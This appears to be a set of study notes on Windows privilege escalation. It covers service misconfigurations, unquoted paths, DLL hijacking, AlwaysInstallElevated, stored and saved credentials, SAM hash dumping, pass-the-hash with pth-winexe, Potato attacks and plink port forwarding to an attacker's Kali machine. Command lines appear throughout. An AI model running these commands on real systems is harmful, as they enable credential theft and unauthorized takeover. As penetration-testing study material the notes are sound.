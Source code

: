 # Privilege Escalation Tecniques

## Kernel Exploits
Kernel has the complete control over the OS. After enumerating kernel version with:
```console
systeminfo
```

we can then find exploits with Windows Exploit Suggester (bitsadmin), Precompiled Kernel Exploits (SecWiki) or Watson (rasta-mouse).

## Service Exploits
Services are programs that run in background. There are 5 types of misconfigurations based on Services. Configurations can be seen with the `accesschk` executable. Here useful commands for services:

```console
# Query the configuration of a service
sc qc {SERVICE_NAME}

# Query the current status of a service
sc query {SERVICE_NAME}

# Modify a configuration of a service
sc config {SERVICE_NAME} {OPTION}= {VALUE}

# Start and Stop a service
net start/stop {SERVICE_NAME}
```

### Insecure Service Properties
If a service has permissions such as:
* SERVICE_CHANGE_CONFIG
* SERVICE_ALL_ACCESS
it could be a privilege escalation path.

The easiest way to escalate in this case is to change the binary PATH with a reverse shell'PATH, then start the service. 

N.B. We must be able to start/restart the service to complete the escalation, otherwise is a Rabbit Hole

### Unquoted Service Path
This misconfiguration happens when a service has an unquoted path. Suppose a path like `C:\Programs Files\Some Dir\Program.exe`. Without quotes, Windows recognizes multiple alternatives, and the ambiguity is resolved by checking each possibilities in turn:

| Program | Arg1 | Arg2 |
| :-----: | :--: | :--: |
| C:\Programs | Files\Some | Dir\Program.exe |
| C:\Programs Files\Some | Dir\Program.exe | - |
| C:\Programs Files\Some Dir\Program.exe | - | - |

If we are able to write in one of the previous locations (C:\ or Programs Files) we can led the service to execute our executable (respectively called Programs and Some) containing, for example, a reverse shell.

### Weak Registry Permissions
If ACL is misconfigured for a specific registry, modifying its content brings to modify service configuration (even if it cannot be modified directly). Like `Unsecure Service Properties` we can modift the `ImagePath` registry key to point our server shell executable, then start the service.


### Insecure Service Executables
If the service executable is modifiable, we can simply replace its content with our reverse shell. (We can stop the service, modify the content and start it again)

### DLL Hijacking
Often a service tries to load a functionality from a DLL. This DLL will be executed with the same privileges the service has loaded it. We can change the content of the DLL or, if a DLL loaded is missing, create the DLL.
Unfortunately, this last procedure requires manual dinaymic analysis.

## Registry

### AutoRuns
Registry contains `AutoRuns`, commands/executables that can be run at startup with elevated privileges. If we are able to change the content of an AutoRun executable and we are able to restart the OS, we can be able to escalate privileges. 

### AlwaysInstallElevated
MSI files, used to install apps, run with the permissions of the user trying to install.
`AlwaysInstallElevated` is a particular registry that allows to install apps always with elevated privileges. 
If this registry is set to 1, we can create a reverse shell with `msfvenom` and msi output format, copy it into the target system and execute it.

##  Passwords

### Stored Passwords
Both programs and Windows itself store password and configurations in Windows Registry. Searching Registry for passwords is always a good choice.

```console
# Local Machine
reg query HKLM /f password /t REF_SZ /s
# Current User
reg query HKCU /f password /t REF_SZ /s
```

### Saved Credentials
Windows has a runas command which allows users to run commands with privilege of other users requiring a password (sort of sudo).
Windows allows users to save credentials to the system, so password is not required with runas

```console
cmdkey /list

runas /savecred /user:admin reverse.exe
```

### Configuration Files 
Administrators can leave configuration files in the system, containing password in them. An example is the `Unattend.xml` file, used to automate the OS installation process.

### SAM
Windows stores password hashes in SAM, Security Account Manager, located in `C:\Windows\System32\config`.
The key used to encrypt the hashes is stored in SYSTEM file, located in `C:\Windows\System32\config/RegBack`. If we are able to read both files, we can extract the hashes using `creddump7`.

```console
python pwdump.py SYSTEM SAM
```
Hashes returned by the tool are two: `LM` and `NTLM` hashes. The first one is deprecated and it contains always the hash of an empty string. We can crack the NTLM hash with `hashcat`

### Passing the HASH
Evenif if we cannot crack the hash, we can use it in a modified version of winexe, called `pth-winexe`, that allows us to spawn a shell

```console
pth winexe --system -U 'admin%{HASH} {TARGET} cmd.exe
```

## Scheduled Tasks
Windows can run tasks periodically or when triggered by events (login). Tasks usually run with the user who creates it. 
Unfortunately a user can check only scheduled tasks owned by him, not the ones belonging to other users.

If we can find an executable that seems to be a scheduled task owned by others, that is writable by us, we can modify it with a reverse shell and wait for the schedule.

## Insecure GUI Apps
A user could be granted the permission to run certain GUI apps with admin privileges. Spawning a command prompts from that GUI, the command will ran with the same privilege of the GUI.
E.g. is click on Open File from the GUI, and open `file://C:/Windows/System32/cmd.exe`

## Startup Apps
Every user can define apps that start when they login. These apps are situated in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`
If we can create files in this directory, we can put here our reverse shell that will spawn where the admin logs in.

## Installed Apps
Installed apps can have misconfiguration. These may be found online (e.g. ExploitDB).

We can numerate all running program in Windows searching from a vulnerability with :

```console
tasklist /v

# or
seatbelt.exe NonstandardProcess
```

## Hot Potato, Rotten Potato and Juicy Potato
Hot Potato is the name of an attack that tricks Windows into authenticating to a fake HTTP server usign NTLM. Credentials are relayed to SMB.
It works on Windows 7, 8 and the earlier versions of Windows 10.

```console
.\potato.exe -ip {IP} -cmd "{REVERSE_SHELL_PATH}" - enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true
```

Rotten and Juicy are instead, based on token management. Both are possible because service accounts have `SeImpersonatePrivilege` privilege enabled

## Port Forwarding
Sometimes programs are listening only in internal ports. In these cases we need to forward ports. A good program is `plink.exe` that establishes an ssh connection with our Kali machine.

```console
# From target
.\plink.exe root@{KALI_IP} -R {KALI_PORT}:127.0.0.1:{TARGET_PORT}
```